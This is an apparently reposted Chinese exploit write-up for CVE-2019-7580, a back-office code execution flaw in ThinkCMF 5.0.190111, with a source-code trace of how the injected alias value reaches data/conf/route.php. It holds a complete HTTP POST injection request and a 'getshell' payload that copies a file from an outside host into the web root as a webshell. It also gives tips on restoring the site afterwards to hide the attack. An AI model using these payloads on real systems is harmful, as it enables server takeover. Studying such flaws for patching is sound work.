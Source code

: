 # （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3141](https://www.zhihuifly.com/t/topic/3141)

# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close `parent_id=0&name=111&alias=1’%3D%3Earray(%22%22)%2Cphpinfo()%2C’2` 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行payload。下图以执行sleep(5)作为演示。

![image](img/9d23f40458735047caf6dbd1b4d60fad.png)

![image](img/d32452286911203706ac9402a8583412.png)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\data\conf\route.php 文件
网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\think\App::run()执行应用。

![image](img/8cb566df58623ded632a4c5b6d20a2ed.png)

在App.php的run()函数139行，执行sef::exec();

![image](img/34f7608658d3efcf51537295d1e350bd.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![image](img/568e9a69c9dbe03f0b2d40d0ee54e92c.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从$this->request->param()函数中得到请求中的参数传递给$data。

![image](img/bd05463162d61a10e179497edd3fb4e9.png)

然后通过$this->validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的"添加分类"操作。

![image](img/4b11b22f9b09d502ae714354d6820ccf.png)

在addCategory函数中，184行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![image](img/669bae714c5ce1345e1875d06350da9f.png)

其中$fullUrl和$url的值如截图所示。
继续跟，

![image](img/d01f2b65887128410cd2dc82288f3074.png)

在34行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的157行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![image](img/4611b404cec59797be79b8310c450e1c.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![image](img/13301cb0d2d2e987aa511d2815ef6f8e.png)

这里先

```
include app/route.php 
```

![image](img/ef719a0d2662bc50d4e5b115ca2e7b1c.png)

然后，

```
include data/conf/route.php 
```

![image](img/ce2c459a4156e479dc15cf4669feaef4.png)

最终执行我们的payload：`phpinfo()`。

![image](img/60b2011b3371961779133d2cd200de6d.png)

## 参考链接

> https://xz.aliyun.com/t/3997#toc-6